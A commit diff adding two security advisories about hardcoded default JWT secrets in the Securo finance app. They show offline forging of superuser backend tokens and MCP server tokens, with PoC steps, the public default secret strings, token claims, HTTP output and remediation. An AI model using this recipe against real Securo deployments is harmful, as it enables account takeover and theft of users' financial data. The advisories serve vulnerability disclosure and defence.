

Add securo default-secret JWT forgery advisories (backend superuser forge + MCP financial data access)

diff --git a/securo_backend_default_jwt_secret.md b/securo_backend_default_jwt_secret.md
@@ -1,0 +1,108 @@
+# Hardcoded Default JWT Signing Secret in Securo Enables Offline Superuser Token Forgery
+
+| Field | Value |
+|---|---|
+| Project | [securo-finance/securo](https://github.com/securo-finance/securo) |
+| Vulnerability Type | Use of Hard-coded Cryptographic Key (CWE-321) leading to Authentication Bypass (CWE-287) |
+| Severity | Critical — CVSS 3.1 Base Score: 9.8 |
+| CVSS Vector | `AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H` |
+| Affected Versions | <= 0.16.4 (verified on 0.16.4, latest release as of 2026-10-14; commit `b0ad4cf`) |
+| Authentication | None (self-registration) |
+
+---
+
+## Summary
+
+Securo's backend signs all session JWTs (fastapi-users `JWTStrategy`, HS256) with `settings.secret_key`. That key has a publicly known default at every layer of the documented deployment paths:
+
+- code default: `backend/app/core/config.py:24` — `secret_key = SecretStr("change-me-in-production")`
+- `docker-compose.yml:12` and `docker-compose.prod.yml:12` — `SECRET_KEY: ${SECRET_KEY:-dev-secret-change-in-production}`
+- production Helm chart `charts/securo/values.yaml:17` — `secretKey: "dev-secret-change-in-production"`
+
+Nothing forces an install to rotate it (no startup check, no generated value), so the README quick-start (`docker compose up --build`) runs with a public signing key. Because the same key also protects the password-reset flow and the Fernet key encrypting stored LLM API keys, every deployment that did not explicitly override `SECRET_KEY` accepts attacker-forged tokens: anyone can register a normal account, harvest every user UUID via `GET /api/users/directory` (which returns all users to any authenticated caller), mint an HS256 token for the superuser offline, and drive the full `/api/admin/*` surface.
+
+## Details
+
+`backend/app/core/config.py:24` (0.16.4):
+
+```python
+secret_key: SecretStr = SecretStr("change-me-in-production")
+```
+
+`backend/app/core/auth.py:87-98` — the key directly signs every session token:
+
+```python
+def get_jwt_strategy() -> JWTStrategy:
+    return JWTStrategy(
+        secret=settings.secret_key.get_secret_value(),
+        lifetime_seconds=settings.access_token_expire_minutes * 60,
+    )
+```
+
+`backend/app/api/user_lookup.py:52-62` — the UUID oracle any logged-in user can call:
+
+```python
+@router.get("/directory", response_model=list[UserLookupResult])
+async def list_users_directory(...):
+    """List every user on the instance — for the member-picker dropdown."""
+    result = await session.execute(select(User).order_by(User.email))
+    return list(result.scalars().all())
+```
+
+Registration is enabled by default (`registration_enabled = True`), so the attacker needs no prior access to reach the directory. `fastapi-users` accepts any token whose `sub` names an existing user and whose signature verifies under `secret_key` — with the default key, both properties are attacker-controlled.
+
+## PoC
+
+Verified on release 0.16.4 (source tarball, commit `b0ad4cf`): backend started with `uvicorn app.main:app` against Postgres (pgvector image, as required by the docs) and Redis, with **no** `SECRET_KEY` set — the exact state of a compose quick-start that does not override the variable. All tokens below are crafted with the Python standard library (`hmac`/`hashlib`); no secrets were read from the instance.
+
+**Step 1: self-register and harvest the superuser UUID**
+
+```
+[*] attacker self-registers: 201 {"id":"5c7c690b-...","email":"attacker2@example.com",...}
+[*] attacker login: 200 token len 204
+[*] victim (superuser) uuid: aa1e34e7-f570-4046-b2c1-36901adfe3ae is_superuser: True
+
+-- [1] GET /api/users/directory with the attacker's plain-user token --
+    HTTP 200 [{"id":"5c7c690b-...","email":"attacker2@example.com"},
+              {"id":"7ca4968d-...","email":"attacker@example.com"},
+              {"id":"aa1e34e7-...","email":"victim@example.com"}, ...]
+```
+
+**Step 2: forge the superuser token offline with the public default secret**
+
+```
+-- [2] forge HS256 JWT offline for the superuser (secret = public default) --
+    forged token: eyJhbGciOiAiSFMyNTYiLCAidHlwIjogIkpXVCJ9.eyJzdWIiOiJhYTFlM2U3...
+    GET /api/users/me with forged token -> HTTP 200 {"id":"aa1e34e7-...","email":"victim@example.com","is_superuser":true,...}
+    GET /api/admin/users (admin API)      -> HTTP 200 {"items":[...all users...]}
+    [VULN] forged token accepted as the superuser
+```
+
+**Step 3: negative control — identical token signed with a wrong secret**
+
+```
+-- [3] negative control: same token signed with a WRONG secret --
+    HTTP 401 {"detail":"Unauthorized"}
+    [OK] rejected
+```
+
+**Real-environment reproduction** (the product itself, run for this test): the transcript above is a live run against the release 0.16.4 backend started without `SECRET_KEY`; the forged token was accepted for the superuser identity across both the profile and the admin API, while the same token with a wrong signature was rejected — proving the acceptance is caused by the known default key, not by missing verification.
+
+![Real-environment verification](securo_backend_default_jwt_secret.png)
+
+---
+
+## Impact
+
+On any deployment that did not explicitly override `SECRET_KEY` (the default state of the documented compose and Helm install paths):
+
+- **Full instance takeover** — forged superuser JWTs unlock all `/api/admin/*` endpoints: password resets for any user, user creation/deletion, and instance-wide data access
+- **Session forgery for every user** — combined with the user-enumeration oracle, any account (including other members' workspaces in single-tenant installs) can be impersonated
+- **Cascading key compromise** — the same secret protects password-reset tokens and the Fernet key encrypting stored LLM API keys (`backend/app/agents/services/crypto.py`)
+
+### Remediation
+
+1. Generate a random `SECRET_KEY` on first start (persist it in the data volume) and refuse to boot with any of the known public defaults, in code and in the Helm chart's default values.
+2. Remove the literal fallbacks from `docker-compose.yml`, `docker-compose.prod.yml`, and `charts/securo/values.yaml`; `install.sh` should emit a freshly generated secret into `.env`.
+3. Restrict `GET /api/users/directory` to authenticated members with a need (or superusers), and return opaque identifiers where possible.
+4. Consider migrating session tokens to an asymmetric algorithm (RS256/EdDSA) so a leaked symmetric default cannot be silently exploited across installs.

diff --git a/securo_mcp_default_jwt_secret.md b/securo_mcp_default_jwt_secret.md
@@ -1,0 +1,106 @@
+# Public Default MCP JWT Secret and Unauthenticated `/mcp` Exposure in Securo Enable Cross-User Financial Data Access
+
+| Field | Value |
+|---|---|
+| Project | [securo-finance/securo](https://github.com/securo-finance/securo) |
+| Vulnerability Type | Use of Hard-coded Cryptographic Key (CWE-321) / Missing Authorization (CWE-862) |
+| Severity | Critical — CVSS 3.1 Base Score: 9.1 |
+| CVSS Vector | `AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:N` |
+| Affected Versions | <= 0.16.4 (verified on 0.16.4, latest release as of 2026-10-14; commit `b0ad4cf`) |
+| Authentication | Forged bearer token (public default signing key) |
+
+---
+
+## Summary
+
+The optional AI Agents module ships a separate MCP server (`backend/mcp_server/main.py`, uvicorn on `0.0.0.0:8765`) exposing full-read financial tools (`list_transactions`, `accounts`, `reports`, `budgets`, `search`, `knowledge`) and persistent write-proposal tools over JSON-RPC at `/mcp`. Its only authentication is JWT signature/issuer/audience verification, signed with `AGENTS_MCP_JWT_SECRET` — whose defaults are public strings:
+
+- code default: `backend/app/agents/config.py:30` — `mcp_jwt_secret = "change-me-in-production"`
+- `docker-compose.yml:57` and `docker-compose.prod.yml:55` — `dev-mcp-secret-change-in-production`
+- `charts/securo/values.yaml:38` — the same literal
+
+The official `install.sh` writes only `SECRET_KEY` and Pluggy keys into `.env`, and `.env.example` does not contain the variable at all, so installs that enable Agents run the MCP server with a public key. The verifier additionally takes `sub` as the acting user without any user-existence or membership check, and the Helm chart's Ingress routes `/mcp` to the server whenever Agents are enabled. An attacker who learns any user's UUID (e.g. via the user-directory endpoint) mints a token offline and reads or writes that user's financial data through the public default secret.
+
+## Details
+
+`backend/mcp_server/auth.py` (0.16.4, `verify_request`):
+
+```python
+JWT_ISSUER = "securo-backend"
+JWT_AUDIENCE = "securo-mcp"
+
+def verify_request(request: Request) -> CallContext:
+    ...
+    payload = jwt.decode(
+        token,
+        _settings().mcp_jwt_secret,          # public default
+        algorithms=[JWT_ALGO],
+        audience=JWT_AUDIENCE,
+        issuer=JWT_ISSUER,
+    )
+    ...
+    sub = payload.get("sub")
+    ...
+    return CallContext(user_id=user_id, ...)   # no user-existence check
+```
+
+`backend/app/agents/config.py:30`:
+
+```python
+mcp_jwt_secret: str = "change-me-in-production"
+```
+
+The tool layer resolves the victim's default workspace when the token carries no `ws_id` claim, so only the `sub` UUID is needed. With the Helm Ingress template routing `/mcp` to this process, the forged call is remotely exploitable on production deployments that enabled the Agents profile.
+
+## PoC
+
+Verified on release 0.16.4 (source tarball, commit `b0ad4cf`): backend and MCP server started with `uvicorn` (app + mcp_server) against Postgres/Redis with **no** `AGENTS_MCP_JWT_SECRET` set — the state of any documented install that enables Agents without knowing the variable exists. The victim (an instance user) had one seeded private transaction (`Salary deposit CANARY`, USD 5230). The forged token is built with the Python standard library using only the public default string.
+
+**Step 1: forge the MCP token offline**
+
+```
+{"sub": "<victim uuid>", "iss": "securo-backend", "aud": "securo-mcp", ...}
+signed HS256 with "change-me-in-production"
+```
+
+**Step 2: call the financial tool through `/mcp`**
+
+```bash
+python3 poc_default_jwt_secret_forge.py    # section [4]
+```
+```
+-- [4] forge MCP JWT (iss=securo-backend, aud=securo-mcp) -> list_transactions --
+    HTTP 200 {"jsonrpc":"2.0","id":1,"result":{"content":[{"type":"text","text":"{\"items\":
+    [{\"id\": \"23dcea50-...\", \"date\": \"2026-10-01\", \"description\": \"Salary deposit CANARY\",
+    \"amount\": 5230.0, ...}...
+    [VULN] victim's private transaction returned to the forged token
+```
+
+**Step 3: negative control — same token signed with a wrong secret**
+
+```
+-- [5] negative control: MCP token with WRONG secret --
+    HTTP 401 {"jsonrpc":"2.0","id":null,"error":{"code":-32001,"message":"invalid token: Signature verification failed."}}
+    [OK] rejected
+```
+
+**Real-environment reproduction** (the product itself, run for this test): the transcript is a live JSON-RPC exchange with the release 0.16.4 MCP server (34 tools registered) started with default configuration; the forged bearer token returned the victim's transaction data, and the wrong-signature control was rejected — confirming the public default secret is the enabling condition.
+
+![Real-environment verification](securo_mcp_default_jwt_secret.png)
+
+---
+
+## Impact
+
+On any Agents-enabled deployment that did not set `AGENTS_MCP_JWT_SECRET`:
+
+- **Cross-user financial data theft** — full transaction history, account balances, budgets, reports, and knowledge-base contents for any user whose UUID is known (the backend's user-directory endpoint hands them to any registered user)
+- **Persistent fraudulent writes** — write-proposal tools (`propose_create_transaction`, etc.) act in the victim's name
+- **Remote exposure** — the Helm Ingress path makes `/mcp` internet-reachable on production installs; the compose profile binds `0.0.0.0:8765` by default
+
+### Remediation
+
+1. Derive the MCP signing key from a randomly generated per-install secret (or from `SECRET_KEY` after it is itself randomized) and refuse to start with any known public default.
+2. Remove the literal fallback in `docker-compose.yml`, `docker-compose.prod.yml`, and `charts/securo/values.yaml`; add `AGENTS_MCP_JWT_SECRET` to `.env.example` and emit a generated value from `install.sh`.
+3. Validate that the JWT `sub` resolves to an existing, active user and that the token's workspace claim belongs to them before executing tools.
+4. Keep `/mcp` off the public Ingress by default; require an explicit opt-in with an authenticated gateway in front.

diff --git a/README.md b/README.md
@@ -17,6 +17,7 @@ verification output, impact analysis, and remediation guidance.
 | Critical (3.1) | [ConvertX v0.19.0 Hardcoded Default JWT Secret — Full Authentication Bypass](ConvertX_Hardcoded_Default_JWT_Secret_Auth_Bypass.md) | C4illin/ConvertX |
 | Critical (3.1) | [Documented Default Administrator Credentials Lead to Unauthenticated Platform Takeover in open-wearables](OpenWearables_Default_Admin_Credentials_Takeover.md) | the-momentum/open-wearables |
 | High (3.1) | [Forged Strava Webhook Events Enable Unauthenticated Health-Data Deletion and Connection Revocation in open-wearables](OpenWearables_Strava_Webhook_Forged_Event_Data_Destruction.md) | the-momentum/open-wearables |
+| Critical (3.1) | [Hardcoded Default JWT Signing Secret in Securo Enables Offline Superuser Token Forgery](securo_backend_default_jwt_secret.md) | securo-finance/securo |
 | High (3.1) | [Incomplete scheme validation in October CMS ResizeImages enables PHP stream wrapper injection](October_CMS_Stream_Wrapper_Injection.md) | octobercms/october |
 | High (3.1) | [Knip Workspaces Configuration Path Traversal Leading to Arbitrary File Deletion and Overwrite via `knip --fix`](Knip_Workspaces_Config_Path_Traversal_File_Deletion_Overwrite.md) | webpro/knip |
 | High (3.1) | [LibrePhotos 1.2.1 ExifTool Argument Injection via Person Name RCE](LibrePhotos_Person_Name_ExifTool_Argument_Injection_RCE.md) | LibrePhotos/librephotos |
@@ -27,6 +28,7 @@ verification output, impact analysis, and remediation guidance.
 | High (3.1) | [NocoBase 2.1.40 SQLite Filter Array Operator SQL Injection](NocoBase_SQLite_FilterParser_SQL_Injection.md) | nocobase/nocobase |
 | High (3.1) | [Path Traversal in `runners/files` via Unvalidated `runid` in DbGate](dbgate_runners_files_path_traversal.md) | dbgate/dbgate |
 | High (3.1) | [Path Traversal in MediaUploadTrait::deleteFile() leading to arbitrary file deletion](Grav_CMS_Path_Traversal_Arbitrary_File_Deletion.md) | getgrav/grav |
+| Critical (3.1) | [Public Default MCP JWT Secret and Unauthenticated `/mcp` Exposure in Securo Enable Cross-User Financial Data Access](securo_mcp_default_jwt_secret.md) | securo-finance/securo |
 | High (3.1) | [Server-Side LLM API Key Exfiltration via Client-Controlled `oaiHost` with Environment-Key Fallback in big-AGI](BigAGI_llmOpenAI_Env_API_Key_Exfiltration.md) | enricoros/big-AGI |
 | High (3.1) | [SSRF bypass in October CMS ResizeImages via IPv6-mapped IPv4 address encoding](October_CMS_SSRF_IPv6_Mapped_IPv4_Bypass.md) | octobercms/october |
 | High (3.1) | [Static Safety-Check Bypass in AI Strategy Code Pipeline Leads to Remote Code Execution in TickFlow Stock Panel](tickstockpanel_strategy_validation_bypass_rce.md) | shy3130/tick-stock-panel |
@@ -38,4 +40,4 @@ verification output, impact analysis, and remediation guidance.
 | High (3.1) | [WebSocket-for-Python (ws4py) wss Client TLS Certificate and Hostname Verification Disabled by Default](WebSocket_for_Python_wss_TLS_Certificate_Validation_Disabled_by_Default.md) | Lawouach/WebSocket-for-Python |
 | Critical (3.1) | [Zilla http-filesystem Binding Unauthenticated Path Traversal](Zilla_Http_Filesystem_Binding_Path_Traversal.md) | aklivity/zilla |
 
-Total: 31 advisories.
+Total: 33 advisories.
